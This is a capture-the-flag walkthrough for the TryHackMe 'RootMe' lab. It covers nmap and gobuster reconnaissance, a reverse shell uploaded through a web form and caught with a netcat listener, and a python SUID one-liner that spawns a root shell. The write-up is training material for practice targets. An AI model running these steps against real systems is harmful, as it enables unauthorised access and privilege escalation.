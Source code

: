 # RootMe

![RootMe](./images/RootMe.png)

[RootMe](https://tryhackme.com/r/room/rrootme) is listed as an easy room, and covers a lot of different tools and aspects of security, which makes it a great room to complete for beginners.
An overview of what we’ll be using is listed here:  

* Basic linux commands
* Nmap scan
* Gobuster
* Netcat

## Task 1 - Deploy the machine

Set up environment IP as IP_Machine

```
export IP=10.10.234.161
```

![task1-IP](./images/task1-IP.png)

## Task 2 - Reconnaissance

* Scan the machine, how many ports are open?
	
	```
	nmap -sV $IP | tee -a nmap-default.txt
	```

	File scan resulted [here](./files/nmap-default.txt)

	![task2-nmap](./images/task2-nmap.png)

* What version of Apache is running?
	
	![task2-version](./images/task2-version.png)

* What service is running on port 22?
	
	![task2-ssh](./images/task2-ssh.png)

* Find directories on the web server using the GoBuster tool. What is the hidden directory?
	
	```
	gobuster dir -w /usr/share/wordlists/dirb/common.txt -u $IP | tee -a gobuster-default.txt
	```

	File scan resulted [here](./files/gobuster-default.txt)

	![task2-gobuster](./images/task2-gobuster.png)
	

## Task 3 - Getting a shell

* Find a form to upload and get a reverse shell, and find the flag `user.txt`
	
	* Upload reverse shell 
		
		![task3-reverse](./images/task3-reverse.png)

	* Open terminal for netcat listening
	
		```
		nc -nvlp 8888
		```

		![task3-nc](./images/task3-nc.png)

	* Open file upload from website
	
		![task3-shell](./images/task3-shell.png)

	* Get access to server

		![task3-access](./images/task3-access.png)

	* Find and read file `user.txt`
	
		![task3-user-txt](./images/task3-user-txt.png)

## Task 4 - Privilege escalation

* Search for files with SUID permission, which file is weird? 

	```
	find / -type f -perm -4000 -ls 2>/dev/null
	```

	![task4-find](./images/task4-find.png)

* root.txt

	```
	/usr/bin/python -c 'import os; os.execl("/bin/sh", "sh", "-p")'
	```

	![task4-root-txt](./images/task4-root-txt.png)



